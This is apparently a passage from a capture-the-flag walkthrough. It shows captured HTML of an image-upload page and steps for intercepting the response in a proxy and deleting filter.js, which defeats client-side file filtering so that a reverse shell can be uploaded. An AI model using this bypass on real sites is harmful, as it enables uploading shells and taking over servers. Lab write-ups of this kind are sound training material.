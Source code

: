 ```REQUEST_CAPTURED_WHILE_NAVIGATING_TO_UPLOADS.PHP
			<table border=0 cellspacing=0 cellpadding=0>
				<tbody>
					<tr>
						<td id="leftMost"><img src="assets/imgs/shapes/left-most.png"></td>
						<td id="leftMostAngled"><img src="assets/imgs/shapes/left-most-angled.png"></td>
						<td id="middleBar">
							<img src="assets/imgs/shapes/middle-bar.png">
							<div class="resMsg" id="resMsg">&nbsp;</div>
						</td>
						<td id="rightAngled"><img src="assets/imgs/shapes/right-angled.png"></td>
						<td id="uploadBtn" class="uploadBtn"><img id="uploadImg" src="assets/imgs/upload-button.png"></td>
					</tr>
				</tbody>
			</table>
		</div>
		<!--Mobile-->
		<img class="uploadBtn" id="mobUploadBtn" src="assets/imgs/upload-button.png">
		<p class="resMsg" id="mobResMsg">&nbsp;</p>
	</body>
</html>
```

>>TO UPLOAD THE REVERSE SHELL WE NEED TO BYPASS THE FILTER SO WE NEED TO MODIFY THE SOURCE CODE OF THE UPLOADS.PHP.
>>FIRST CAPTURE THE TRAFFIC TRAFFIC AND RIGHT CLICK AND SELECT THE OPTION OF "DO INTERCEPT" AND HIT FORWARD NOW WE GOT THE SOURCE CODE AS RESPONSE.NOW GO AHEAD AND REMOVE FILTER.JS THEN FORWARD IT.  
>>NOW GO TO THE WEBSITE AND VISIT THE SOURCE CODE AND CONFIRM THAT FILTER.JS IS NOT THERE.

```MODIFIED_REQUEST_[FILTER.JS]_IS_REMOVED
HTTP/1.1 200 OK
Date: Thu, 25 Nov 2021 14:44:20 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1328
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang=en>
	<head>
		<title>Aperture Clear?</title>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0">
		<link rel="icon" type="image/png" href="favicon.png">
		<link rel="stylesheet" type="text/css" href="assets/css/CourierPrime.css">
		<link rel="stylesheet" type="text/css" href="assets/css/uploads.css">
		<script src="assets/js/upload.js"></script>
	</head>
	<body>
		<input id="uploadInput" type=file accept=".png,.jpg,.jpeg">
		<div id="arrow">
			<table border=0 cellspacing=0 cellpadding=0>
				<tbody>
					<tr>
						<td id="leftMost"><img src="assets/imgs/shapes/left-most.png"></td>
						<td id="leftMostAngled"><img src="assets/imgs/shapes/left-most-angled.png"></td>
						<td id="middleBar">
							<img src="assets/imgs/shapes/middle-bar.png">
							<div class="resMsg" id="resMsg">&nbsp;</div>
						</td>
						<td id="rightAngled"><img src="assets/imgs/shapes/right-angled.png"></td>
```